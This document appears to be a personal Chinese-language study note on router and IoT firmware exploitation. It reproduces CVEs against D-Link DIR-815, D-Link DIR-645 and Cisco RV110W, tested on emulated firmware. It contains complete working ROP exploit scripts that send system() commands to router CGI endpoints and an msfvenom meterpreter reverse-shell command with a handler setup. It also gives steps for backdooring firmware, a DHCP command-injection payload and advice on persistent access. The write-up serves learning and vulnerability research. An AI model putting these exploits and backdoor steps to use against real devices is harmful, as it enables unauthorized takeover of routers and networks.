      goto LAB_00413e3c;
    }
  }
  local_34 = DAT_10000214;
  local_38 = PTR_s_httpd_10000210;		//"httpd"
  unaff_s1 = _eval(&local_38,">/dev/console",0,0);			//<======
```


**Web应用测试**

以下是嵌入式设备的Web应用程序中要检查的特定区域：

**·** 诊断和故障排除页面可能存在命令注入

**·** 验证和授权方案对整个固件中的应用程序和操作系统平台的相同框架进行验证

**·** 默认的用户名、密码

**·** 在网页执行目录遍历或文件读取，以识别调试或测试功能

**·** 在 SOAP/xml 和 API 传输中的输入检查 ，如：XSS 和 XXE

**·** 跟踪观察应用程序中的参数查看异常点和堆栈溢出点

**·** 针对常见的C / C ++漏洞针对嵌入式Web应用程序服务量身定做目标payload，例如内存损坏漏洞，格式字符串漏洞和整数溢出。

根据产品及其应用程序界面的不同，测试用例也会有所不同。

**引导加载程序测试**

修改设备启动和引导加载程序（例如U-boot）时，请尝试以下操作：

**·** 尝试在引导过程中按“ 0”，空格或其他标识的“Magic code”来访问引导程序解释器shell。

**·** 修改配置以执行shell命令，例如在引导参数末尾添加' 'init=/bin/sh

**·** #printenv

**·** #setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3

**·** mtdparts=sflash:

**·** #saveenv

**·** #boot

**·** 设置一个tftp服务器，从工作站本地通过网络加载，确保设备具有网络访问权限。  

**·** #setenv ipaddr 192.168.2.2 #local IP of the device

**·** #setenv serverip 192.168.2.1 #tftp server IP

**·** #saveenv

**·** #reset

**·** #ping 192.168.2.1 #check if network access is available

**·** #tftp ${loadaddr} uImage-3.6.35 #loadaddr takes two arguments: the address to load the file into and the filename of the image on the TFTP server

**·** 使用写uboot修改的固件来获得rootubootwrite.py

**·** 检查启用的调试功能，例如：

**·** 详细记录

**·** 加载任意内核

**·** 从不受信任的来源引导  

**·** 使用警告：将一个引脚接地，观察设备启动顺序，在内核解压缩之前，将接地引脚短路/连接到SPI闪存芯片上的数据引脚（DO）

**·** 将一个引脚接地，观察设备启动顺序，在内核解压缩之前，在U-boot对UBI映像解压缩时，将接地引脚短路/连接至NAND闪存芯片的引脚8和9。

**·** 在短接引脚之前请查看NAND闪存芯片的数据表

**·** 使用恶意参数配置恶意DHCP服务器作为设备在PXE引导期间提取的输入

**·** 使用Metasploit（MSF）DHCP辅助服务器，并使用命令注入命令修改FILENAME``‘a";/bin/sh;#’参数，例如测试设备启动过程的输入验证。

**固件完整性测试**

尝试上传自定义固件和编译的文件，以检查完整性或签名验证漏洞。例如，使用以下步骤编译在启动时启动的后门绑定shell。

\1. 使用固件修改包（FMK）提取固件；

\2. 确定目标固件架构和字节序；

\3. 使用BuildrootBuild交叉编译器或使用适合环境的其他方法；

\4. 使用交叉编译器Build后门；

\5. 将后门复制到解压缩的固件/ usr / bin中；

\6. 将适当的QEMU文件复制到提取的固件rootfs；

\7. 使用chroot和QEMU模拟后门；

\8. 通过netcat连接到后门；

\9. 从提取的固件rootfs中删除QEMU文件；

\10. 用FMK重新包装修改后的固件；

\11. 通过使用固件分析工具包（FAT）进行仿真并使用netcat连接到目标后门IP和端口来测试后门固件。

如果已经通过动态分析，引导加载程序操纵或硬件安全测试手段获得了root shell，尝试执行预编译的恶意文件，例如植入程序或反向shell。使用用于命令和控制（C＆C）框架的自动化有效载荷/植入工具。例如，可以使用以下步骤来利用Metasploit框架和msfvenom。

\1. 确定目标固件架构和字节序

\2. 使用指定适当的目标负载（-p），攻击者主机IP（LHOST =），侦听端口号（LPORT =）文件类型（-f），编译（--arch），平台（--platform Linux或Windows）和输出文件（-o）。例如，msfvenom``msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux

\3. 将有效负载传到受感染的设备（例如，运行本地Web服务器，并将有效负载wget / curl到文件系统），并确保有效负载具有执行权限

\4. 准备Metasploit以处理传入的请求。例如，使用msfconsole启动Metasploit，然后根据上述有效负载使用以下设置：use exploit / multi / handler，

**·** set payload linux/armle/meterpreter_reverse_tcp

**·** set LHOST 192.168.1.245 #attacker host IP

**·** set LPORT 445 #can be any unused port

**·** set ExitOnSession false

**·** exploit -j -z

**·** 在受感染的设备上执行meterpreter反向shell

**·** 查看 meterpreter sessions

**·** 后渗透攻击

最后，尽可能的在启动脚本中设置对设备持久访问的后门，保证重新启动后也有设备的访问控制权

**0x08 运行时分析**

运行时分析涉及在设备在其正常或仿真环境中运行时附加到正在运行的进程或文件。下面提供了基本的运行时分析步骤：

1. \1. sudo chroot . ./qemu-arch -L。

2. \2. 附加gdb-multiarch或使用IDA模拟文件。

3. \3. 为步骤4中识别的函数设置断点，例如memcpy，strncpy，strcmp等。

4. \4. 使用Fuzzer执行较大的payload字符串挖掘溢出或进程崩溃。

5. \5. 如果发现漏洞，请移至步骤8。

6. 会用到的工具：

7. **·** gdb-multiarch

8. ***\*·\**** [Peda](https://github.com/longld/peda)

9. **·** Frida

10. **·** ptrace

11. **·** strace

12. **·** IDA Pro

13. **·** Ghidra

14. **·** Binary Ninja

15. **·** Hopper

16. **0x09 漏洞利用**

17. 在从之前的步骤中识别出文件中的漏洞之后，需要适当的概念验证（PoC）来证明现实的影响和风险。开发漏洞利用代码需要具有较低级语言（例如ASM，C / C ++，shellcode等）的编程经验，以及特定目标体系结构（例如MIPS，ARM，x86等）中的背景知识，PoC代码涉及通过控制内存中的指令在设备或应用程序上获得任意执行。

18. 在嵌入式系统中通常不存在二进制运行时保护（例如NX，DEP，ASLR等），需要ROP技术来绕过。ROP允许攻击者通过链接目标进程/二进制代码（称为gadget）中的现有代码来实施任意恶意功能，需要采取步骤来利用已识别的漏洞，例如通过形成ROP链来利用缓冲区溢出漏洞。

19. 可以使用Capstone的gadget查找器或ROPGadget- **·** https://github.com/JonathanSalwan/ROPgadget：

20. ***\*·\**** https://azeria-labs.com/writing-arm-shellcode/

21. **·** https://www.corelan.be/index.php/category/security/exploit-writing-tutorials/

22. **0x10 固件分析工具**

23. 下面列出的是常用工具：

24. ***\*·\**** [固件分析比较工具包](https://github.com/fkie-cad/FACT_core)（FACT）

25. **·** [FWanalyzer](https://github.com/cruise-automation/fwanalyzer)

26. **·** [Firmwalker](https://github.com/craigz28/firmwalker)

27. **·** [firmware-mod-kit](https://code.google.com/archive/p/firmware-mod-kit/)

28. **·** [Firmadyne](https://github.com/firmadyne/firmadyne)

29. **·** [ByteSweep](https://gitlab.com/bytesweep/bytesweep)

30. **·** [Binwalk](http://binwalk.org/)

31. ***\*·\**** [FLASHROM](https://www.flashrom.org/Flashrom)

32. **·** [openocd](http://openocd.org/)

33. **·** [angr](https://github.com/angr/angr)

34. ***\*·\**** [binaryanalysis](http://www.binaryanalysis.org/en/home)

35. **·** [Checksec.sh](https://github.com/slimm609/checksec.sh)

36. **·** [CHIPSEC](https://github.com/chipsec/chipsec)

37. **·** [qilingframework模拟框架](https://github.com/qilingframework/qiling)

38. **·** [triton框架](https://triton.quarkslab.com/)

39. **0x11  固件靶机**

40. 用于练习的固件漏洞项目

41. **·** OWASP IoTGoat

42. ***\*·\**** https://github.com/OWASP/IoTGoat

43. **·** 漏洞路由器固件靶机

44. **·** https://github.com/praetorian-code/DVRF

45. **·** 漏洞ARM路由器（DVAR）

46. **·** https://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html

47. **·** ARM-X

48. **·** https://github.com/therealsaumil/armx#downloads

49. **·** Azeria Labs VM 2.0

50. **·** https://azeria-labs.com/lab-vm-2-0/


# CVE复现思路

思科官方漏洞库查询：[Security Advisories (cisco.com)](https://tools.cisco.com/security/center/publicationListing.x)


# 复现集

## D-Link_DIR-815_stack_overflow

### web服务器

web服务器主程序进行接受连接，http/https包的解析等，静态内容一般位于httpd/html。而动态内容(也是主要的)由cgi脚本程序(或c)完成，然后将生成的内容发给用户。对于C语言的cgi程序，httpd启动以execve将包中的参数传给他并且启动，，然后子程序使用dup2将函数输出重定向到与client连接好的描述符，由此返回给用户执行结 果

像大型服务器，httpd为主服务程序，配上大量的cgi进行交互。对post方法，我们要调用的cgi程序其参数由我们在body中提供

### HTTP包

请求包_post:

```http
POST /?id=1 HTTP/1.1
Host: echo.paw.cloud
Content-Type: application/json; charset=utf-8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Connection: close
Content-Length: 136

{
  "status": "ok",
  "extended": true,
  "results": [
    {"value": 0, "type": "int64"},
    {"value": 1.0e+3, "type": "decimal"}
  ]
}
```

空白行对于post方法来说必须要，行的上面是header，下面是body

相应包：

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Date: Sat, 18 Feb 2017 00:01:57 GMT
Server: nginx/1.11.8
transfer-encoding: chunked
Connection: Close

<!doctype html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>echo</title>
....略
```

格式差不多

### 漏洞定位

IDA 不支持mipsel汇编转伪码，用ghidra查看伪码 IDA查看汇编

可以根据官方给出的漏洞描述文档：一个cgi服务程序：hedwig.cgi(/htdocs/cgibin的符号链接) 原因为cookie过长导致。

将会用`char *getenv("HTTP_COOKIE")`获取用户的cookie值，在IDA中查看cgibin对"HTTP_COOKIE"的引用追溯到


逆向sess_get_uid函数，主要就是从cookie中分离得到uid：(个人觉得分析这样的子程序需要的参数是很重要的)


继续回溯发现，这个函数被许多其他函数调用，但在其中`hedwigcgi_main`函数中使用了sprintf危险函数，可造成缓冲区溢出。

对这部分用脚本动态验证：

```bash
#!/bin/bash

INPUT=$1
COOKIE=$2
LEN=$(echo -n "$INPUT" | wc -c)
PORT="1234"

set -u

if [ "$LEN" == "0" ] || [ "$INPUT" == "-h" ] || [ "$UID" != "0" ]
then
	echo -e "\nUsage: sudo $0 \n"
	exit 1
fi

cp $(which qemu-mipsel-static) ./qemu
echo $INPUT | chroot . ./qemu -E REQUEST_URI="/hedwigcgi" -E REQUEST_METHOD="POST" -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REMOTE_ADDR="1.1.1.100" -E HTTP_COOKIE=$COOKIE -g $PORT ./htdocs/web/hedwig.cgi

echo "done"
rm -f ./qemu
```

在启动时用qemu -E参数解决环境变量问题。通过对sess_get_uid分析器需要的cookie形式为`uid=`.

```bash
sudo ./run_cgi.sh 'uid=1234' "uid=1234$(cyclic 2000)"
gdb-mutilarch + c
```

继续查看伪码：

```c
sprintf(buf_400h,"%s/%s/postxml","/runtime/session",cookie_ptr);
sprintf(buf_400h,"/htdocs/webinc/fatlady.php\nprefix=%s/%s","/runtime/session",cookie_ptr);
```

同一个函数两次触发溢出，接下来找出溢出点即可

还需要注意的是：

```c
    F_ptr = fopen("/var/tmp/temp.xml","w");
    if (F_ptr == (FILE *)0x0) {
      ptr = "unable to open temp file.";
      goto LAB_00409a64;
    }
```

该函数返回值受服务器上/var/tmp/temp.xml影响，我们在本地建立或移除文件观察返回值，然后对比真实情况下的返回值来判断服务器上到底有没有这个文件(以上操作在仿真系统中进行，该文件是存在的)

最终在以'uid=1234&password='形式的cookie发现溢出点(相对于$s0)为959。

### 漏洞利用

ASLR问题

```bash
$ checksec
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

> 仿真环境开启ASLR，通过http包传送的数据几乎都是可见字符，程序本身的rop链由于存在`\x00`字符会被截断所以是无法利用的，可利用的rop链只有在libc这样的共享库才有，因为每个地址都是4字节满的，所以这里只能关闭ASLR，在书中(路由器0day挖掘)前文刚说libc是动态加载的后面就直接告诉读者libc基地址为`0x2aaf8000`.我都傻了

用shellcode解决ASLR感觉很难：

+ stack地址变化
+ http对很多不可见字符敏感无法发送，这对shellcode编写造成了很大困难(用msf自动生成的试过了，没一个行)
  + 0x20（空格）、0x00（结束符）、0x3a（冒号）、0x3f（问号）、0x3b（分号）、0x0a(n换行符)等
  + 应该只能用rop链

**因此这里假定真实情况就是ASLR关闭**

```python
libc_addr = 0x2aaf8000
system_off = 0x53200

gadget_1 = 0x000328BC  	#move $a0, $s3, jmm $s1
gadget_2 = 0x000158C8  	#add $s0, 1 , jmp $s5
gadget_3 = 0x000159CC	#move $s5, $sp-0x10  move $t9, $s0  move $a0, $s5 jmp $t9
'''
.text:00409A28                 lw      $ra, 0x4E8+var_4($sp)
.text:00409A2C                 move    $v0, $s7
.text:00409A30                 lw      $fp, 0x4E8+var_8($sp)
.text:00409A34                 lw      $s7, 0x4E8+var_C($sp)
.text:00409A38                 lw      $s6, 0x4E8+var_10($sp)
.text:00409A3C                 lw      $s5, 0x4E8+var_14($sp)
.text:00409A40                 lw      $s4, 0x4E8+var_18($sp)
.text:00409A44                 lw      $s3, 0x4E8+var_1C($sp)
.text:00409A48                 lw      $s2, 0x4E8+var_20($sp)
.text:00409A4C                 lw      $s1, 0x4E8+var_24($sp)
.text:00409A50                 lw      $s0, 0x4E8+var_28($sp)
.text:00409A54                 jr      $ra
'''
```

这里为了解决system地址以00结尾，使用了曲线救国(加减法)

$ra == gadget_2_addr， cmd位于$sp-0x10

然后用pwntools加工一下，书上的用标准库有点长：

```python
#!/usr/bin/env python
from pwn import*
import requests
import sys

context.arch = 'mips'
context.endian = 'little'

elf = ELF('./htdocs/cgibin')

libc_addr = 0x2aaf8000
system_off = 0x53200

gadget_1 = 0x000328BC  	#move $a0, $s3, jmm $s1
gadget_2 = 0x000158C8  	#add $s0, 1 , jmp $s5
gadget_3 = 0x000159CC	#move $s5, $sp-0x10  move $t9, $s0  move $a0, $s5 jmp $t9
#target: system(any cmd)

def payload_maker():

	# padding = 'sss' + shellcode.ljust(959, 'A')
	padding = 'A'*959
	padding += p32(system_off + libc_addr - 1)	#s0 = system_addr - 1
	padding += 'C'*4		#s1
	padding += 'B'*4		#s2
	padding += 'D'*4		#s3
	padding += 'E'*4 		#s4
	padding += p32(gadget_3 + libc_addr)		#execv a0==s5==cmd_adr, s0==system_addr
	padding += 'G'*4 		#S6
	padding += 'H'*4		#s7
	padding += 'I'*4 		#fp
	padding += p32(gadget_2 + libc_addr)		#execv add $s0, 1 , jmp $s5
	padding += '*'*0x10 	#padding for cmd
	padding += sys.argv[1]
	if '\x00' in padding or '\r\n' in padding:
		info("[*] Bad Bytes in payload")
		exit(0)
	return padding

def pwn():
	payload = payload_maker()
	success(payload)
	target = "http://192.168.0.1/hedwig.cgi"
	Badheadr = {"Cookie":'uid=1234&password=' + payload}
	body = {"uid":"1234", "password":"1234"}

	try:
		attack = requests.post(url=target, headers=Badheadr, data=body)
	except requests.exceptions.ConnectionError:
		success("Package deliverd")


if __name__ == '__main__':
	pwn()
```

好的，脚本准备好了，接下来就是全系统模拟环境搭建


## 仿真环境搭建

bintils问题

项目是[attify/firmware-analysis-toolkit: Toolkit to emulate firmware and analyse it for security vulnerabilities (github.com)](https://github.com/attify/firmware-analysis-toolkit)

这里为了在ubuntu 20.04上搭建大概花了1天半，但是还是没成功，记录一些主要原因：

+ git：该项目setup脚本下载了很多其他大神的git项目 如果不保证git clone网络稳定将持续失败
  + 解决：在ubuntu上转个ssr，然后配置终端下载命令(git)走代理
+ binutils：为了完全体验binwalk 将会下载sasquatch等项目需要用本地编译，我这ubuntu20 的binutils工具箱版本太高了一直编译失败，然后胡乱装了一个2.28版本的还是失败，在1604的2.26完美编译。但2.26的binutils在我的ubuntu20无法编译安装，因为用到原来的binutils还是版本太高(这个最烦了)

最后妥协使用大神的镜像 [AttifyOS](https://github.com/adi0x90/attifyos) 成功运行路由器：


要修改对应Image ID的run脚本 ：firmadyne/scratch/1/run.sh 见[Firmware Analysis Toolkit Demo - asciinema](https://asciinema.org/a/5VryIC2ec1j9SEIfGQ0qAWjoH)

```bash
#将下面的net 数字改为对应ID 
-netdev tap,id=net1,ifname=${TAPDEV_0},script=no -device e1000,netdev=net1
```


但是我这还是出一些问题：

```bash
Creating TAP device tap1_0...
Set 'tap1_0' persistent and owned by uid 0
Bringing up TAP device...
Adding route to 192.168.0.1...
Starting firmware emulation... use Ctrl-a + x to exit
qemu-system-mipsel: -netdev tap,id=net1,ifname=tap1_0,script=no: Duplicate ID 'net1' for netdev
Deleting route...
Bringing down TAP device...
Deleting TAP device tap1_0...
Set 'tap1_0' nonpersistent
#然后就G了
```

就是第一个死活跑不起来，第二个80%能起来，实在不行重启。

成功后可以看到/etc下的初始化脚本跑起来：


亿一个问题：

```bash
[   74.140000] firmadyne: ioctl: 0x94
[   74.140000] firmadyne: ioctl: 0x94
[   74.796000] firmadyne: ioctl: 0x95
[   75.144000] firmadyne: ioctl: 0x94
[   75.144000] firmadyne: ioctl: 0x94
[   75.800000] firmadyne: ioctl: 0x95
[   76.148000] firmadyne: ioctl: 0x94
[   76.148000] firmadyne: ioctl: 0x94
[   76.804000] firmadyne: ioctl: 0x95
[   77.152000] firmadyne: ioctl: 0x94
[   77.152000] firmadyne: ioctl: 0x94
[   77.808000] firmadyne: ioctl: 0x95
[   78.156000] firmadyne: ioctl: 0x94
[   78.156000] firmadyne: ioctl: 0x94
[   78.812000] firmadyne: ioctl: 0x95
[   79.160000] firmadyne: ioctl: 0x94
[   79.160000] firmadyne: ioctl: 0x94
[   79.816000] firmadyne: ioctl: 0x95
[   80.164000] firmadyne: ioctl: 0x94
[   80.164000] firmadyne: ioctl: 0x94
[   80.820000] firmadyne: ioctl: 0x95
[   81.168000] firmadyne: ioctl: 0x94
[   81.168000] firmadyne: ioctl: 0x94
[   81.824000] firmadyne: ioctl: 0x95
[   82.172000] firmadyne: ioctl: 0x94
[   82.172000] firmadyne: ioctl: 0x94
[   82.828000] firmadyne: ioctl: 0x95
[   83.176000] firmadyne: ioctl: 0x94
```

一直刷ioctl调用，但也可以输入命令，建议用telnetd -p2333 -/bin/sh开一端口连接操作

## PWN

进入启动qemu后可以先去看看libc加载基地址还有关闭ASLR：`echo 0 > /proc/sys/randomize_va_space`.然后找到httpd服务kill 它重新启动

然后我们来试试脚本吧！


PWNED！！！

好吧虽然没开ASLR

## 小结

+ 固件获取
+ 文件系统提取
+ 固件分析
  + 漏洞分析
  + 参数分析

## D-link_DIR_645

### 漏洞定位

CGI程序authentication.cgi中的参数存在溢出

```c
   /*这里参数长度是多少，read就读多少*/
	iVar2 = strcmp(ptr_1,"POST");
    if (iVar2 != 0) goto LAB_0040bc9c;
    memset(buf_id,0,0x184);
    ptr_1 = getenv("CONTENT_TYPE");
    ptr_2 = getenv("CONTENT_LENGTH");
    if ((ptr_1 != (char *)0x0) && (ptr_2 != (char *)0x0)) {
      len = atoi(ptr_2);
      iVar2 = fileno(stdin);
                    /* stackoverflow  */
      sVar5 = read(iVar2,input,len);
```

明显的溢出，**关键如何构造参数使其绕过很多中间流程直接返回**，这样易于我们利用

```c
/*这里主要对参数中的id，和password内容提取*/
		do {
              pcVar12 = ptr_1;
              if (*pcVar12 == '&') break;
              ptr_1 = pcVar12 + 1;
            } while (*pcVar12 != '\0');
            pcVar12 = pcVar12 + -(int)ptr_2;
            if (iVar2 == 0) {
                    /* overflow  */
              strncpy(dest_1,ptr_2,(size_t)pcVar12);
              buf_id[(int)pcVar12] = '\0';
            }
            else {
              if (iVar2 != 1) goto LAB_0040b614;
              strncpy(buf_passwd,ptr_2,(size_t)pcVar12);
              buf_passwd[(int)pcVar12] = '\0';
            }
            iVar2 = iVar2 + 1;
            ppuVar14 = ppuVar14 + 1;
          } while (iVar2 != 2);
          memset(local_e1c,0,0x84);
          iVar2 = FUN_0040aacc(local_e1c,buf_env);
          if (iVar2 < 0) {
            uVar11 = 6;
            goto LAB_0040bca8;
          }
```


这里让password 的长度刚好等于0x80那么在增加截断符时就会使buf_env第一个字符覆盖为\x00。使得FUN_0040aacc返回-1直接准备返回。

因为把password限制在0x80所以在后面再加一个`&payload=`.主要这里没有对参数长度和个数的检查。接下来利用起来就比较简答了基本操作。但是libc基址还是未知的

### 漏洞利用

````python
#!/usr/bin/env python
from pwn import*
import requests
import sys
import httplib


#httplib.HTTPConnection._http_vsn = 10
#httplib.HTTPConnection._http_vsn_str = 'HTTP/1.0'

context.arch = "mips"
context.endian = "little"
#"password=$(python -c "print 'A'*355^C&id=$(cyclic 600)"

url = sys.argv[1] + '/authentication.cgi'
cmd = sys.argv[2]

libc_addr = 0x2aaf800  #
system_off = 0x0053200
gadget_1 = 0x000368CC 	#addiu $s1,$s0,0xC                                   |  jalr  $s4
gadget_2 = 0x00057AE0 	#addiu $s1,$sp,0x40+var_28                           |  jalr  $s3
gadget_3 = 0x00328BC	#move $t9, $s1                                       |  jalr  $t9
gadget_4 = 0x00012E6C	#move $a0,$s1                                        |  jalr  $s6 
gadget_5 = 0x00023A34	#addiu $s1,$sp,0xB0+var_78                           |  jalr  $s2
def payload_maker():
	payload = "password=" + 'A'*0x80
	payload += "&id=" + 'A'*0x80
	payload += "&payload="
	payload += 'A'*(786-4*8)
	info("padding length:0x%x"%(len(payload)))
	payload += p32(system_off + libc_addr - 0xc)
	payload += "S1S1"
	payload += p32(gadget_4 + libc_addr)
	payload += "S3S3"
	payload += p32(gadget_3 + libc_addr)
	payload += "S5S5"
	payload += p32(gadget_1 + libc_addr)
	payload += "S7S7"
	payload += p32(0xdeadbeef)
	payload += p32(gadget_5 + libc_addr)
	payload += '*'*24
	payload += cmd

	if '\x00' in payload or '\r\n' in payload:
		exit(-1)
	success("payload builded!")
	return payload

def pwn():
	payload = payload_maker()
 	f = open("payload", "wb")
	f.write(payload)
	f.close()

	head = {"Cookie":"", "Content-Type":"application/x-www-form-urlencoded", "Accept":"*/*"} #这里有总比没有好
	try:
		attack = requests.post(url=url, data=payload, headers=head)
		info("Attack.statu: %d"%(attack.status_code))
		info("response:\n" + attack.text)
	except requests.exceptions.ConnectionError:
		info("Attacked!")


if __name__ == '__main__':
	pwn()
````


由于没有实际设备，libc地址总是出错，索性用qemu模拟来验证Exp的可行(--trace)

```bash
6320 rt_sigaction(SIGCHLD,0x40800378,0x40800398) = 0
6320 execve("/bin/sh",{"sh","-c","/bin/bash",NULL}) = -1 errno=2 (No such file or directory)
6320 exit(127)
 = 6320
```

### 小结

所以说还是那两个问题：

+ CGI的启动参数/环境变量
  + 比如这里在固件模拟的时候我在Exp一直没完善headers，http包发不出去
+ 远程libc问题
  + 动态的话我觉的只能碰撞了


## RV110W---CVE-2020-3331

### 信息收集

漏洞描述：

> Cisco RV110W Wireless-N VPN防火墙和Cisco RV215W Wireless-N VPN路由器的基于Web的管理界面中的漏洞可能允许未经身份验证的远程攻击者在受影响的设备上执行任意代码。该漏洞是由于基于Web的管理界面未正确验证用户提供的输入数据而引起的。攻击者可以通过向特定设备发送精心设计的请求来利用此漏洞。成功的利用可能使攻击者利用root用户的特权执行任意代码。

固件版本：RV110W_FW_1.2.2.5.bin

从exploit-db中查到历史漏洞的exp：

```python
  		[ 'Cisco RV215W 1.2.0.15',
            {
              'offset'              => 69,
              'libc_base_addr'      => 0x2af5f000,
              'libcrypto_base_addr' => 0x2ac5a000,
              'system_offset'       => 0x0004c7e0,
              'got_offset'          => 0x00098db0,
              # gadget 1 is in /usr/lib/libcrypto.so
              'gadget1'             => 0x0005059c, # addiu $s0, $sp, 0x20; move $t9, $s4; jalr $t9; move $a0, $s0;
              'Arch'                => ARCH_MIPSLE,
              'DefaultOptions'  => {
                'PAYLOAD'         => 'linux/mipsle/meterpreter_reverse_tcp',
              }
            }
          ],
    .....
 def prepare_shellcode(cmd)
    case target
    # RV110W 1.1.0.9, 1.2.0.9, 1.2.0.10, 1.2.1.4, 1.2.1.7
    # RV215W 1.1.0.5, 1.1.0.6, 1.2.0.14, 1.2.0.15, 1.3.0.7, 1.3.0.8
    when targets[0], targets[1], targets[2], targets[3], targets[4], targets[6], targets[7], targets[8], targets[9], targets[10], targets[11]
      shellcode = rand_text_alpha(target['offset']) +           # filler
        rand_text_alpha(4) +                                    # $s0
        rand_text_alpha(4) +                                    # $s1
        rand_text_alpha(4) +                                    # $s2
        rand_text_alpha(4) +                                    # $s3
        p(target['libc_base_addr'], target['system_offset']) +  # $s4
        rand_text_alpha(4) +                                    # $s5
        rand_text_alpha(4) +                                    # $s6
        rand_text_alpha(4) +                                    # $s7
        rand_text_alpha(4) +                                    # $s8
        p(target['libcrypto_base_addr'], target['gadget1']) +   # $ra
        p(target['libc_base_addr'], target['got_offset']) +
        rand_text_alpha(28) +
        cmd
      shellcode
    ....
  def send_request(buffer)
    begin
      send_request_cgi({
        'uri'     => '/login.cgi',
        'method'  => 'POST',
        'vars_post' => {
              "submit_button": "login",
              "submit_type": "",
              "gui_action": "",
              "wait_time": 0,
              "change_action": "",
              "enc": 1,
              "user": rand_text_alpha_lower(5),
              "pwd": buffer,
              "sel_lang": "EN"
          }
      })    
```

看的出来对应版本的固件存在栈溢出。

根据上面的请求可知login.cgi是有效的，在文件系统中搜索：

```bash
iot@attifyos ~/D/_/squashfs-root> grep -R "login.cgi" * 2>/dev/null
Binary file usr/sbin/httpd matches
www/login.asp:453:<FORM id=frm name=login method=<% get_http_method(); %> action="login.cgi" onKeyDown=chk_keypress(event) autocomplete=off>

#-R 文件递归
#* 2>/dev/null同时将像：" No such file or directory"错误信息
```

这个值可以用cmd5网站查出来(付费)或者用hashcat撞出来，结果是`admin:Admin123`

同时可以知道httpd是一个web程序（？？？）

### bindiff对比---漏洞定位

去思科查询该漏洞的影响：

> ## Affected Products
>
> - Vulnerable ProductsThis vulnerability affects Cisco RV110W Wireless-N VPN Firewall releases earlier than Release 1.2.2.8 and Cisco RV215W Wireless-N VPN Router releases earlier than Release 1.3.1.7.

所以1.2.2.8的版本是修复了，那么用bindiff进行对比。

+ 下载地址：https://www.zynamics.com/software.html
+ 使用：选择bindiff5，安装在IDA(7.x) PRO的目录下。在IDA 得到两个需要对比的文件的.idb文件后选择老的那个文件再用IDA打开，然后ctrl+6


越往下就代表这些函数改动的越大，这里选择guest_logout进行分析(提到未授权)。右键这个函数选择`view flow grahps`


+ 绿色：相同的基本块
+ 黄色：修改的基本块
+ 红色：删掉的基本块
+ 灰色：新加的基本块

那我们需要重点看的是`红色`和`黄色`


这里发现把一个危险函数`sscanf`给删了。用ghidra查看这里的伪码：

```c
  iVar3 = get_cgi("cmac");
  mac = get_cgi("cmac");
  sVar3 = strlen(mac);
  ip = iVar3 + (sVar3 - 1);
  mac = get_cgi("cmac");
  if (mac < ip) {
    do {
      cVar1 = *ip;
      if (((cVar1 != '\n') && (cVar1 != '\r')) && (cVar1 != ' ')) break;
      *ip = '\0';
      ip = ip + -1;
      mac = get_cgi("cmac");
    } while (mac < ip);
  }
  mac = get_cgi("cmac");
  ip = get_cgi("cip");
  submit = get_cgi("cip");
  sVar3 = strlen(submit);
  ip = ip + (sVar3 - 1);
  submit = get_cgi("cip");
  if (submit < ip) {
    do {
      cVar1 = *ip;
      if (((cVar1 != '\n') && (cVar1 != '\r')) && (cVar1 != ' ')) break;
      *ip = '\0';
      ip = ip + -1;
      submit = get_cgi("cip");
    } while (submit < ip);
  }
  ip = get_cgi("cip");
  submit = get_cgi("submit_button");
  if (submit == (char *)0x0) {
    submit = "";
  }
  if (mac == (char *)0x0) {
    return 0;
  }
  if (ip == (char *)0x0) {
    return 0;
  }
....
  else {
    sscanf(submit,"%[^;];%*[^=]=%[^\n]",acStack108,acStack172);
    pFVar4 = fopen("/dev/console","w");
    if (pFVar4 != (FILE *)0x0) {
      fprintf(pFVar4,"\n%s(%d),submit_button = [%s] url=[%s], session_id=[%s]\n","guest_logout_cgi",
              0x1549,submit,acStack108,acStack172);
      fclose(pFVar4);
    }
```

这里对`cmac,cip,submit_button`内容提取说明应该是有参数的。对最后`submit_button`的内容**几乎没有检查**不像`cmac和cip`稍微有一点。而且在最后用sscanf+类正则表达式对submit内容提取。

```bash
"%[^;];%*[^=]=%[^\n]
```


1、 * 亦可用于格式中, (即 %*d 和 %*s) 加了星号 (*) 表示跳过此数据不读入. (也就是不把此数据读入参数中)  

2、%[a-z] 表示匹配a到z中任意字符  

3、%[aB'] 匹配a、B、'中一员  

4、%\[^a\]  匹配非a的任意字符


所以这里submit_button构造为：`abcd;xxx=12345`将abcd赋值给`acStack108`12345这部分赋值给acStack172。显然这里存在溢出

关键点：

+ 调用`guest_logout_cgi`对应的url是社么
  + 这里对函数交叉引用查看还是无法定位出起点，所以用字符串搜索logout有一个`guest_logout.cgi`比较显眼
+ 是POST还是GET方法
  + 逆向分析，但鉴于上面的gust_logout_cgi没能查出，这里应该也比较难查
  + 用两种方法试一下+可以造成溢出的payload，哪个造成崩溃了就行，但如果有对应守护进程那可能也看不出

### 信息收集---针对一个cgi

定位到guest_logout.cgi函数存在漏洞google一下这个函数发现之前360报道了由该函数引起的漏洞[360代码卫士协助思科修复高危漏洞获公开致谢 (baidu.com)](http://baijiahao.baidu.com/s?id=1611320740304787082)

看这个分析也能获取该函数的调用参数，和路由，调用方法


那么对这个CGI我们该了解的都了解了，接下来就是找溢出点+利用了。但这里有个很有意思的地方：

**该路由器**的虽然ASLR的值是1(栈和libc理论上会变化)但是libc的基址总是`2af98000`（等我有设备好好看一下~）

> 可能原因：可能是为了效率，编译的时候就把内核的这个功能干掉了，或者当前平台压根就不支持这个功能。

+ 确定了libc基址那么利用libc的gadgets可以轻易获得rop链
+ ret2shellcode也很方便[Linux/mips - Reverse Shell Shellcode - 200 bytes by Jacob Holcomb](http://shell-storm.org/shellcode/files/shellcode-860.php)
  + 该shellcode使用reverse_shellcode需要自己改一下回连地址
+ 栈迁移来避免\x00字符


### 小结

+ 对于1day漏洞使用bindiff+old_cve很方便
+ 也许很多设备libc就是固定的可以从exploit-db上面看对应固件的Exp的libc
+ 去产品官网上找漏洞库收集信息

### ToDo

+ 买个二手的来实战
  + done！
